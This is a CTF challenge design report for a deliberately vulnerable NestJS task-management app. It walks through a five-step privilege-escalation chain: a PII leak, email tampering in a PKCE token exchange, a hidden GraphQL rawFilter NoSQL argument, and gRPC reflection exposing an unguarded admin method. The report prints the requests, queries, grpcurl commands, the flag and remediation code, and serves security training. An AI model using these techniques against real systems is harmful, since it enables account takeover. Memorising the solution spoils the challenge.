

# Challenge Security Report: SwiTF01-hit3

**Author:** Mohamed Swilam
**Date:** September 2026
**Version:** 1.0
**Classification:** Internal, CTF Training Use Only

---

## 1.1 Executive Summary

SwiTF01-hit3 is a task management application intentionally built with a chain of five realistic API security vulnerabilities spanning three protocol layers: REST, GraphQL, and gRPC. The challenge requires the participant to progressively escalate privileges from a regular user account to superadmin access by chaining excessive data exposure, broken authentication, GraphQL introspection abuse, NoSQL injection, and gRPC hidden service discovery.

The primary vulnerability is a broken authentication implementation on a PKCE token exchange endpoint that trusts client-supplied identity fields without any server-side validation against the original authorization code. This allows an attacker to obtain a valid session for any known email address. The challenge is designed so that no single vulnerability is sufficient alone, each step depends on the output of the previous one, and the flag is only accessible after all five steps are completed in sequence.

The learning objective is to demonstrate how individually moderate vulnerabilities across different API layers can combine into a critical attack chain leading to full privilege escalation and unauthorized access to administrative functionality.

---

## 1.2 Challenge Overview


| Field                     | Details                                                                                 |
| ------------------------- | --------------------------------------------------------------------------------------- |
| Application               | SwiTF01-hit3, Task Management Platform                                                  |
| Stack                     | NestJS (backend), Next.js (frontend), MongoDB                                           |
| Primary Vulnerability     | Broken Authentication, PKCE Parameter Tampering (Account Takeover)                      |
| Secondary Vulnerabilities | PII Leak (REST), GraphQL Unrestricted Querying via hidden argument, gRPC hidden service |
| Difficulty                | Hard                                                                                    |
| Estimated Solve Time      | ~2 hours                                                                                |

The application simulates a real-world task management platform where users collaborate on projects. Three role tiers exist, each communicating with the backend via a different protocol. The challenge is structured so that the participant starts as a regular user and must work through the full chain to reach superadmin-level access.

---

## 1.3 Architecture & Trust Boundaries

### Components


| Component        | Description                                             |
| ---------------- | ------------------------------------------------------- |
| Next.js Frontend | Serves the UI for all three role tiers                  |
| NestJS Backend   | Handles REST, GraphQL, and gRPC in a single application |
| MongoDB          | Stores users, projects, tasks, and admin records        |
| Docker Compose   | Orchestrates the application and database containers    |

### Role-to-Protocol Mapping


| Role       | Protocol | Endpoint                        |
| ---------- | -------- | ------------------------------- |
| User       | REST     | `http://localhost:4000/api/v1/` |
| Admin      | GraphQL  | `http://localhost:4000/graphql` |
| SuperAdmin | gRPC     | `localhost:50051`               |

### Architecture Diagram



### Trust Boundaries

- The REST token exchange endpoint trusts the client-supplied email instead of using the authenticated user identity, intentional vulnerability.
- The GraphQL layer passes the `rawFilter` argument directly to MongoDB, intentional vulnerability.
- The gRPC layer exposes `SuperAdminService` via reflection without access control on `AddUnlimitedAdmin`, intentional vulnerability.
- The UI filters and hides sensitive fields (superadmin email, creator email in task cards), but the underlying API responses are not filtered, intentional mismatch creating the PII leak.

---

## 1.4 Attacker Starting Point


| Field             | Value                                    |
| ----------------- | ---------------------------------------- |
| Initial Access    | Registered user account                  |
| Username          | `swilam`                                 |
| Password          | `switf123`                               |
| Role              | User (lowest privilege)                  |
| Known Information | Application URL, own credentials         |
| Restrictions      | Cannot access admin or superadmin panels |

The participant is given no information about the admin or superadmin accounts. The starting point is a legitimate low-privilege session obtained through normal login.

---

## 1.5 Attack Surface

### REST Endpoints


| Endpoint                     | Method | Description                                                              |
| ---------------------------- | ------ | ------------------------------------------------------------------------ |
| `/api/v1/auth/login`         | POST   | Issues authorization code after valid login                              |
| `/api/v1/auth/token`         | POST   | Exchanges code for JWT session, vulnerable to parameter tampering (IDOR) |
| `/api/v1/projects`           | GET    | Lists projects the user is a member of                                   |
| `/api/v1/projects/:id/tasks` | GET    | Lists tasks, response leaks creator PII                                  |
| `/api/v1/tasks/:id`          | GET    | Task detail, response includes full creator object                       |

### GraphQL


| Query                           | Description                                        |
| ------------------------------- | -------------------------------------------------- |
| `searchAdmins(name: String)`    | Visible argument, performs name-based search       |
| `searchAdmins(rawFilter: JSON)` | Hidden argument, passes filter directly to MongoDB |
| `__schema` introspection        | Reveals hidden`rawFilter` argument                 |

### gRPC Services


| Service                   | Method              | Description                                           |
| ------------------------- | ------------------- | ----------------------------------------------------- |
| `AdminService`            | `AddAdmin`          | Adds admin, enforces 5-admin limit                    |
| `AdminService`            | `ListAdmins`        | Lists all admins including the 6th after exploitation |
| `SuperAdminService`       | `AddUnlimitedAdmin` | Hidden method, no limit, no authorization check       |
| `grpc.reflection.v1alpha` | `ServerReflection`  | Exposes all services and methods to enumeration       |

---

## 1.6 Vulnerability Description

### Vulnerability 1, Excessive Data Exposure (PII Leak)


| Field          | Details                                                                                                       |
| -------------- | ------------------------------------------------------------------------------------------------------------- |
| Type           | Excessive Data Exposure, OWASP API3                                                                           |
| Component      | REST task endpoints                                                                                           |
| Precondition   | Authenticated as any user with project membership                                                             |
| Failed Control | API response does not filter sensitive fields before sending to client                                        |
| Root Cause     | The task serializer returns the full creator object including email, while the UI only renders the name field |

### Vulnerability 2, Broken Authentication (PKCE Parameter Tampering)


| Field          | Details                                                                                                                                                                                                                                                                                 |
| -------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Type           | Broken Authentication / IDOR, OWASP API2 / API1                                                                                                                                                                                                                                         |
| Component      | `/api/v1/auth/token`                                                                                                                                                                                                                                                                    |
| Precondition   | Attacker has their own valid credentials and knows a target account email address                                                                                                                                                                                                       |
| Failed Control | Uses client-provided email during token exchange instead of the authorization code's owner                                                                                                                                                                                              |
| Root Cause     | The token exchange endpoint takes the`email` from the request body rather than from the authorization code's underlying session. This allows an attacker to log in with their own credentials and exchange the code for another user's session by tampering with the `email` parameter. |

### Vulnerability 3, GraphQL Introspection + Unrestricted Querying


| Field          | Details                                                                                                                                                                                                                                                                                                                                                              |
| -------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Type           | GraphQL Introspection Abuse + Unrestricted Querying, OWASP API8 / API3                                                                                                                                                                                                                                                                                               |
| Component      | GraphQL`searchAdmins` resolver                                                                                                                                                                                                                                                                                                                                       |
| Precondition   | Authenticated as admin                                                                                                                                                                                                                                                                                                                                               |
| Failed Control | Hidden argument not removed from production schema; no input sanitization on`rawFilter`                                                                                                                                                                                                                                                                              |
| Root Cause     | A`rawFilter` argument intended for internal/debug use was left in the production GraphQL schema. The resolver passes this argument directly to a MongoDB `find()` call without sanitization. The `rawFilter` argument accepts any JSON object and passes it directly to MongoDB, allowing the player to query any field in the admin collection without restriction. |

### Vulnerability 4, gRPC Hidden Service + Missing Authorization


| Field          | Details                                                                                                                                                                                                                               |
| -------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Type           | Security Misconfiguration + Missing Function Level Authorization, OWASP API5                                                                                                                                                          |
| Component      | gRPC`SuperAdminService.AddUnlimitedAdmin`                                                                                                                                                                                             |
| Precondition   | Authenticated as superadmin (session obtained via step 4)                                                                                                                                                                             |
| Failed Control | Server reflection enabled in production; no authorization check on hidden method; no rate limit                                                                                                                                       |
| Root Cause     | `SuperAdminService` was not removed or restricted before deployment. gRPC server reflection is enabled, allowing any client to enumerate all available services and methods. The `AddUnlimitedAdmin` method has no admin count check. |

---

## 1.7 Intended Attack Path

### Step 1, Extract Admin Email via PII Leak

Login as `swilam` / `switf123`. Navigate to a project that has tasks created by the admin account. The UI shows the creator name only. Open Burp Suite and inspect the raw API response from `GET /api/v1/tasks/:id`.

**Request:**

```http
GET /api/v1/projects/:id/tasks/:id HTTP/1.1
Host: localhost:4000
Authorization: Bearer <swilam_jwt>
```

**Response:**

```json
{
  "id": "64f1a2b3c4d5e6f7a8b9c0d1",
  "title": "Document gRPC schema",
  "status": "in_progress",
  "creator": {
    "name": "admin",
    "email": "admin@switf.local"
  }
}
```

**Result:** Admin email `admin@switf.local` obtained.

---

### Step 2, Authentication Bypass to Obtain Admin Session

**Request 1, Login to get auth code:**

```http
POST /api/v1/auth/login HTTP/1.1
Host: localhost:4000
Content-Type: application/json

{
  "username": "swilam",
  "password": "switf123",
  "codeChallenge": "dGVzdA=="
}
```

**Response 1:**

```json
{
  "authorizationCode": "aB3xQz9mKp1Yw7rT2dLsNv==",
  "email": "swilam@switf.local"
}
```

**Request 2, Exchange code via parameter tampering:**

```http
POST /api/v1/auth/token HTTP/1.1
Host: localhost:4000
Content-Type: application/json

{
  "authorizationCode": "aB3xQz9mKp1Yw7rT2dLsNv==",
  "grantType": "authorization_code",
  "codeVerifier": "test",
  "email": "admin@switf.local"
}
```

**Response 2:**

```json
{
  "access_token": "<admin_jwt>",
  "token_type": "Bearer",
  "role": "admin"
}
```

**Result:** Valid admin JWT session obtained.

---

### Step 3, GraphQL Introspection + Unrestricted Querying to Extract Superadmin Email

Access the GraphQL endpoint using the admin JWT. Run introspection to discover the schema.

**Introspection Query:**

```graphql
query {
  __schema {
    queryType {
      fields {
        name
        args {
          name
          type {
            name
            kind
          }
        }
      }
    }
  }
}
```

**Relevant portion of introspection response:**

```json
{
  "name": "searchAdmins",
  "args": [
    { "name": "name", "type": { "name": "String", "kind": "SCALAR" } },
    { "name": "rawFilter", "type": { "name": "JSON", "kind": "SCALAR" } }
  ]
}
```

`rawFilter` is not shown in the UI. Use it to inject a JSON query targeting the superadmin role.

**Injection Query:**

```graphql
query {
  searchAdmins(rawFilter: { role: "superadmin" }) {
    name
    email
  }
}
```

**JSON Request Body (For Burp/Postman):**

```json
{
  "query": "query($filter: JSON) { searchAdmins(rawFilter: $filter) { name email } }",
  "variables": {
    "filter": { "role": "superadmin" }
  }
}
```

**Response:**

```json
{
  "data": {
    "searchAdmins": [
      {
        "name": "superadmin",
        "email": "superswilam@switf.local"
      }
    ]
  }
}
```

**Result:** Superadmin email `superswilam@switf.local` obtained.

---

### Step 4, Authentication Bypass to Obtain Superadmin Session

Repeat the same two-request flow from Step 2 using `superswilam@switf.local` as the email. Response returns a JWT with `role: superadmin`.

**Result:** Valid superadmin JWT session obtained.

---

### Step 5, gRPC Reflection + Hidden Service + Flag Retrieval

Access the superadmin UI panel with the superadmin JWT. Observe in Burp that all superadmin panel requests go to `localhost:50051` via gRPC over HTTP/2.

Attempt to add a 6th admin from the UI, response returns `Limit reached`.

Use `grpcurl` to enumerate available services via reflection:

```bash
grpcurl -plaintext localhost:50051 list
```

**Output:**

```
AdminService
SuperAdminService
grpc.reflection.v1alpha.ServerReflection
```

Enumerate methods on the hidden service:

```bash
grpcurl -plaintext localhost:50051 list SuperAdminService
```

**Output:**

```
SuperAdminService.AddUnlimitedAdmin
```

Call the hidden method to add a 6th admin:

```bash
grpcurl -plaintext \
  -H "Authorization: Bearer <superadmin_jwt>" \
  -d '{"name": "hacker", "role": "admin"}' \
  localhost:50051 SuperAdminService/AddUnlimitedAdmin
```

**Response:**

```json
{
  "success": true,
  "message": "Admin added successfully"
}
```

List all admins:

```bash
grpcurl -plaintext \
  -H "Authorization: Bearer <superadmin_jwt>" \
  localhost:50051 AdminService/ListAdmins
```

**Response:**

```json
{
  "admins": [
    { "name": "admin1", "role": "admin" },
    { "name": "admin2", "role": "admin" },
    { "name": "admin3", "role": "admin" },
    { "name": "admin4", "role": "admin" },
    { "name": "admin5", "role": "admin" },
    { "name": "duck{h1t_r3st_gr2ph_7pc_to_h1t_m3}", "role": "admin" }
  ]
}
```

**Flag retrieved:** `duck{h1t_r3st_gr2ph_7pc_to_h1t_m3}`

---

## 1.8 Impact Assessment

### Confidentiality

All user PII including email addresses is exposed to lower-privilege users via raw API responses. The superadmin email, intended to be hidden, is fully extractable via GraphQL unrestricted querying.

### Integrity

An attacker with a fabricated session can perform any action available to the hijacked role, including modifying projects, tasks, and admin records. The PKCE parameter tampering allows write access to any account.

### Availability

The gRPC `AddUnlimitedAdmin` method has no rate limiting, meaning it could be called repeatedly without restriction. This is not a primary concern in the CTF context but represents a real-world denial-of-service risk against admin management functionality.

### Privileges Gained

Starting from a regular user account, the attacker escalates to admin, then superadmin, gaining full read/write access to all application data and administrative functionality.

---

## 1.9 Flag Retrieval

The flag is only accessible after all five steps are completed in order:

1. PII leak must occur first to obtain the admin email.
2. PKCE parameter tampering must be used to get an admin session.
3. GraphQL introspection must be performed to discover `rawFilter`.
4. Unrestricted querying via `rawFilter` must succeed to obtain the superadmin email.
5. PKCE parameter tampering repeated for superadmin.
6. gRPC reflection must be used to discover `SuperAdminService`.
7. `AddUnlimitedAdmin` must be called successfully.
8. `ListAdmins` returns the 6th admin whose name is the flag.

The flag is generated server-side on the 6th admin addition event and is not present anywhere in the application before that point.

---

## 1.10 Root Cause

The chain succeeds because of three independent but compounding failures:

**1. Missing output filtering:** The task serializer returns the full database object including email without applying a DTO that strips sensitive fields.

**2. Parameter Tampering in Token Exchange:** The token exchange endpoint accepts an `email` field in the request body and uses it to generate the final JWT, ignoring the user identity originally linked to the authorization code. This IDOR vulnerability entirely breaks the PKCE authentication flow.

**3. Debug artifact left in production:** The `rawFilter` argument was added during development for testing MongoDB queries directly. It was never removed from the production schema and was never sanitized because it was assumed to be internal only.

**4. Missing gRPC access control:** The `SuperAdminService` was developed as an internal utility and was never properly gated behind authentication or removed from the production gRPC server. Server reflection was left enabled, making it discoverable by any client.

---

## 1.11 Remediation

### Fix 1, Excessive Data Exposure

Apply response DTOs that explicitly whitelist the fields returned by each endpoint. The task response should return only the creator's display name, never the email or internal ID.

```typescript
// Before (vulnerable)
return await this.tasksService.findOne(id);

// After (secure)
const task = await this.tasksService.findOne(id);
return {
  id: task.id,
  title: task.title,
  status: task.status,
  creator: { name: task.creator.name }
};
```

### Fix 2, PKCE Parameter Tampering

Do not trust client-supplied identity fields in the token exchange. The JWT should be generated using the user identity explicitly tied to the authorization code when it was issued.

```typescript
// Before (vulnerable)
async exchangeToken(dto: TokenDto) {
  // Verifies code and challenge...
  // VULNERABILITY: Uses the client-supplied email to issue the token!
  const targetUser = await this.userModel.findOne({ email: dto.email }).exec();
  return this.jwtService.sign({ sub: targetUser._id, role: targetUser.role });
}

// After (secure)
async exchangeToken(dto: TokenDto) {
  const entry = this.authCodes.get(dto.authorizationCode);
  // Verifies code and challenge...
  // SECURE: Uses the userId bound to the authorization code entry
  const user = await this.userModel.findById(entry.userId).exec();
  return this.jwtService.sign({ sub: user._id, role: user.role });
}
```

### Fix 3, GraphQL NoSQLi

Remove the `rawFilter` argument from the production schema entirely. If a flexible filter is required, use a strongly typed input type that maps only to safe, validated query fields.

```typescript
// Before (vulnerable)
@Args('rawFilter', { nullable: true }) rawFilter?: Record<string, any>
// passed directly to MongoDB

// After (secure)
// Remove rawFilter entirely. Use strongly typed filter:
@Args('name', { nullable: true }) name?: string
// Build query safely: { name: { $regex: escapeRegex(name) } }
```

### Fix 4, gRPC Hidden Service

Disable gRPC server reflection in production environments. Remove or properly gate `SuperAdminService` behind authentication middleware. Apply the same admin count enforcement on `AddUnlimitedAdmin` as exists on `AddAdmin`.

```typescript
// Disable reflection in production
const app = await NestFactory.createMicroservice(AppModule, {
  transport: Transport.GRPC,
  options: {
    package: 'admin',
    protoPath: join(__dirname, 'admin.proto'),
    // Do not register reflection service in production
  },
});

// Add authorization guard on SuperAdminService
@UseGuards(SuperAdminGuard)
async addUnlimitedAdmin(data: AddAdminRequest): Promise<AddAdminResponse> {
  const count = await this.adminService.count();
  if (count >= 5) throw new RpcException('Limit reached');
  return this.adminService.addAdmin(data);
}
```

---

## 1.12 Verification & Retest

### Vulnerable Behavior


| Step                          | Observable Behavior                                                           |
| ----------------------------- | ----------------------------------------------------------------------------- |
| PII Leak                      | `GET /api/v1/tasks/:id` returns `creator.email` in response                   |
| Authentication Bypass         | `POST /api/v1/auth/token` with an arbitrary email returns a JWT for that user |
| GraphQL Unrestricted Querying | `searchAdmins(rawFilter: { role: "superadmin" })` returns superadmin email    |
| gRPC Reflection               | `grpcurl list` reveals `SuperAdminService`                                    |
| gRPC Bypass                   | `AddUnlimitedAdmin` adds 6th admin, flag appears in `ListAdmins`              |

### Expected Secure Behavior


| Step                          | Expected After Fix                                                                                |
| ----------------------------- | ------------------------------------------------------------------------------------------------- |
| PII Leak                      | Response returns only`creator.name`, no email                                                     |
| Authentication Bypass         | Request without valid authentication returns`401 Unauthorized`                                    |
| GraphQL Unrestricted Querying | `rawFilter` argument not present in schema, introspection does not reveal it                      |
| gRPC Reflection               | `grpcurl list` returns only `AdminService`, reflection disabled                                   |
| gRPC Bypass                   | `AddUnlimitedAdmin` either does not exist or enforces the same limit and requires superadmin auth |

### Retest Procedure

1. Apply the fixes described in section 1.11.
2. Reset the environment: `docker compose down -v && docker compose up`.
3. Repeat each step of the attack path.
4. Confirm each step fails with the expected error response.
5. Confirm normal application functionality still works for legitimate users.

### Regression Tests

The `healthcheck.sh` script includes a `--secure-mode` flag that, when pointed at a patched build, verifies that each vulnerability returns the expected secure response rather than the vulnerable one.

---

## 1.13 Unintended Attack Paths

### Considered During Design

**Direct MongoDB access:** The challenge runs MongoDB without external port exposure. The database port is not mapped in `docker-compose.yml`, making direct database access from outside the container network impossible.

**JWT forgery:** The JWT secret is randomly generated at container startup and is not hardcoded or exposed. Forging a JWT is not a viable shortcut.

**Source code inspection:** The flag is not present in source code, Dockerfile, `.env`, or any static file. It is generated server-side at runtime only when the 6th admin addition event is triggered.

**GraphQL batch attacks:** GraphQL batching is disabled in the NestJS GraphQL configuration to prevent batch-based enumeration shortcuts.

**Brute force on vulnerable endpoints:** The get-token endpoint requires a known email address. The admin email is only obtainable through step 1 (PII leak). Without it, brute force is not practical within the challenge scope.

No unintended solutions were discovered during testing that bypass the intended chain.

---

## 1.14 Conclusion

SwiTF01-hit3 demonstrates how a realistic multi-layer API attack chain can be constructed from individually common vulnerabilities. Each vulnerability class is taught in isolation in most security training, but this challenge forces the participant to understand how they interact in practice.

The key lesson is that security controls applied at the UI layer are not sufficient if the underlying API responses are not filtered, and that authentication bypasses at any layer can cascade into privilege escalation across unrelated parts of the application. The gRPC layer, often overlooked in security assessments, is shown to be equally susceptible to misconfiguration and missing authorization as more familiar REST and GraphQL endpoints.

The challenge is intentionally designed so that no shortcut exists, each step in the chain is both necessary and sufficient to enable the next one.

---

## Evidence Summary


| Step                  | Evidence Type                                                                                   |
| --------------------- | ----------------------------------------------------------------------------------------------- |
| PII Leak              | HTTP response from`GET /api/v1/tasks/:id` showing `creator.email`                               |
| Authentication Bypass | HTTP requests and responses for both`/login` and `/token` endpoints showing parameter tampering |
| GraphQL Introspection | Raw introspection query response showing`rawFilter` argument                                    |
| Unrestricted Querying | GraphQL query with injection payload and response showing superadmin email                      |
| gRPC Reflection       | `grpcurl list` output showing `SuperAdminService`                                               |
| Flag Retrieval        | `grpcurl ListAdmins` output showing 6th admin with flag as name                                 |
